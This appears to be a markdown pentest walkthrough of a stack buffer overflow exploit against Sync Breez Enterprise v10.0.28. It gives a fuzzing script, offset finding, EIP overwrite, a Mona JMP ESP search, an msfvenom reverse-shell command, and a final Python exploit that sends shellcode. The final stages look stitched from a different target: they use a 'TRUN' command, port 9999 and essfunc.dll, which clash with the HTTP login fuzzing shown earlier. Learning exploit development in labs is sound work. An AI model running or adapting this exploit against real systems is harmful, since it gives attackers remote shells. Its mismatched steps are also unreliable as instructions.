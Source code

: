 ```yaml
---
description: Sync Breez Enterprize v10.0.28
---
```


# Sync Breez Enterprize

**1. Initial Reconnaissance**

*   **Port Scanning:**

    ```bash
    sudo nmap <IP>
    ```

    Identify open ports. In this case, port 80 is open.
*   **Discover Service and Version:** Open Firefox, visit the HTTP page, and find the service version:

    ```
    Sync Breez Enterprise v10.0.28
    ```
* **Discover Communication Method:** Use Wireshark to capture communication between your machine and the server in a local lab.

**2. Fuzzing**

*   **Simulation:** Python script to simulate communication and fuzz the application for potential vulnerabilities.

    ```python
    # Fuzzing Script
    while True:
        payload = "username=" + 'A' * c + "&password=1234"
        request = "POST /login HTTP/1.1\r\n" + "...other headers...\r\n" + payload
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.1.4", 80))
        s.send(request.encode())
        s.close()
        c += 100
        time.sleep(5)
    ```

**3. Finding the Offset**

*   Generate a pattern using Metasploit's `pattern_create.rb`:

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
    ```
*   Use this pattern in the script and find the offset:

    ```python
    offset = ""  # Paste the pattern generated by pattern_create.rb
    ```

**4. Overwriting the EIP**

*   Use a payload script with the EIP overwritten:

    ```python
    # Example payload with EIP set to 42424242
    shellcode = "A" * 2003 + "B" * 4 + "\x42\x42\x42\x42" + "C" * (3000 - 2003 - 4)
    ```

**5. Finding Bad Characters**

*   Generate a payload to identify bad characters:

    ```python
    # Example payload for finding bad characters
    badchars = "\x01\x02\x03\x04\x05..."  # List of all possible characters
    ```

**6. Finding the Right Module**

*   Use Mona to find modules and identify JMP ESP addresses:

    ```bash
    !mona modules
    !mona find -s "\xff\xe4" -m essfunc.dll
    ```

**7. Generating Shellcode**

*   Use MSFVenom to generate shellcode:

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f c
    ```

**8. Gaining Root**

* Update the Python script with the generated shellcode and listen for the connection using Netcat.

```python
# Final script
import sys, socket
from time import sleep

overflow = b"\xb8\x5c\x1e\x35\x96\xd9..."  # Generated shellcode
shellcode = b"A" * 2003 + b"B" * 4 + b"\x42\x42\x42\x42" + b"\x90" * 16 + overflow

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.4.104', 9999))
    payload = b"TRUN /.:/" + shellcode
    s.send(payload)
    s.close()
except:
    print("Error connecting to the server")
    sys.exit()
```
